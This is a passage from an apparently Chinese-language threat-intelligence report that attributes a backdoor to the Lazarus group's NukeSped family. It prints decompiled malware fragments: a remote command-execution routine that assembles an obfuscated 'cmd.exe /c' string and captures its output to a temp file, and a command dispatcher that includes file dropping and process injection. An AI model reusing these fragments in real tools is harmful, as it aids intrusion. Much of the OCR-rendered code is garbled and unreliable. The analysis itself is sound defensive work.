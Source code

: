 Lazarus组织的NukeSped家族后门历史悠久期间衍生了多个版本变种，此次捕获到的后门软件在某些地方让人不禁联想到NukeSped家族后门。  

在ESET公司2018年Lazarus行动总结报告[1][2]中披露有用于命令行格式化字符串多次被Lazarus所使用。  

# APPENDIXB  

![](https://cdn-mineru.openxlab.org.cn/extract/b5227c20-eb7c-4a7e-9056-4a7c0c592478/157c0f0944186fc2821b63a2f9c0e63a737c65217ffe5df0d6bea624a3afca8a.jpg)  
图表11：所披露用于的格式化字符  

此次活动中使用的后门程序中回传命令执行代码。  

StartupInfo.cb $=$ 104;   
StartupInfo.dwFlags $=1$   
StartupInfo.wShowWindow $=0$   
GetTempPathW(0x104u,Buffer);   
GetTempFileNameW(Buffer, L"TLTQM", O, TempFileName);   
DeleteFileW(TempFileName);   
wsprintfW(CommandLine, L"%sd.e%sc \"%s > %s 2>&1\"", L"cm", L"xe /", WideCharStr, TempFileName);   
if （ !CreateProcessW(0i64, CommandLine, 0i64, 0i64, 0, 0x8000000u, 0i64, 0i64, &StartupInfo, &ProcessInformation）)   
{ Destination $=$ 2203; $v18=2260.$ return sub_1400034A0((BYTE \*)&Destination, 0x10Cu);   
}   
Sleep(0x64u);  

以往Lazarus活动中使用的NukeSped后门样本中的回传命令执行代码，对比之下几乎一致。  

memset(&v16[2], 0, 0x60ui64);   
memset(v15, 0, sizeof(v15));   
v16[0] $=~164$   
$\vee16[15]=1$   
LOWORD(v16[16]) $=~\theta$   
kerne132_GetTempPathA(260i64, v18);   
kernel32_GetTempFileNameA(v18, "PM", 0i64, NewFileName);   
kernel32_DeleteFileA(NewFileName);   
wsprintfA(v19, "%sd.e%sc \"%s $>$ %s 2>&1\"", "cm", "xe /", a2, NewFileName);   
if ( !(unsigned int)CreateProcessW(0i64, v19, 0i64, 0i64, 0, 0x8000000, 0i64, 0i64, v16, v15)) return sub_140001400(a1, 1193052, a3, 0i64);   
if ( !(unsigned int)sub_140001400(a1, 1193082, a3,0i64))   
goto LABEL_17;   
kerne132_Sleep(100i64);  

此次攻击活动中发现的后门程序和以往披露的NukeSped家族后门一样习惯使用硬编码存储C&C服务器地址和端口信息，习惯在代码中引用随机数，以及其标志性的后门指令都让人联系到Lazarus组织的NukeSped家族后门。  

因此我们有理由怀疑此次攻击活动中使用的后门软件是Lazarus组织所使用的NukeSped家族后门某一变种。  

rd_14001c944 $=\textcircled{\cdot}$   
（v5[0] )  
emset(Destination, 0, 0x10Cui64);  
emcpy_s(Destination, Ox10Cui64, $V\theta$ ，0x10Cui64);  
vitch ( Destination[0])  
case $\textcircled{-}\times\textcircled{-}\textcircled{-}\textcircled{-}$ //休眠$\begin{array}{r l}{\mathrm{V}_{1}^{\mp}}&{{}=}\end{array}$ Destination[1];memset(pbBinary, 0, 0x10Cui64);\*(_DWORD \*)&pbBinary[4] $=$ 2194;\*(_DWORD \*)pbBinary $=$ 2202;sub_1400034A0(pbBinary, 0x10Cu);sub_140001CD0(60 \* $\backslash3$ )$\vee\mathtt{1}=\Theta$ goto LABEL_25;  
case 0x899: //退出memset(pbBinary, 0, 0x10Cui64);\*(_DWORD \*)&pbBinary ${\bf\nabla}[4]=2261$ \*(_DWORD \*)pbBinary $=$ 2202;sub_1400034A0(pbBinary, 0x10Cu);exit(0);  
case $0\times895$ /重试memset(pbBinary, 0, 0x10Cui64);\*(_DWORD \*)&pbBinary[4] $=$ 2197;\*(_DWORD \*)pbBinary $=$ 2202;$\begin{array}{r l}{\mathrm{~\v~{~P~}~}}&{{}=}\end{array}$ sub_1400034A0(pbBinary, 0x10Cu);break;  
case $0\times894$ //文件落地v2 $=$ sub_140003F50(Destination);break;  
case $0\times896$ //计算机模块信息获取$\begin{array}{r l}{\quad|\mathcal{\bar{L}}}&{{}=}\end{array}$ sub_140003A30(Destination);break;  
case 0x89C: //进程注入$\begin{array}{r l}{\mathrm{V}_{i}^{2}}&{{}=}\end{array}$ sub_140003Cc0(Destination);break;  
case 0x893: /I获取指定文件信息$\vee\hat{2}$ = sub_1400036c0(Destination);break;  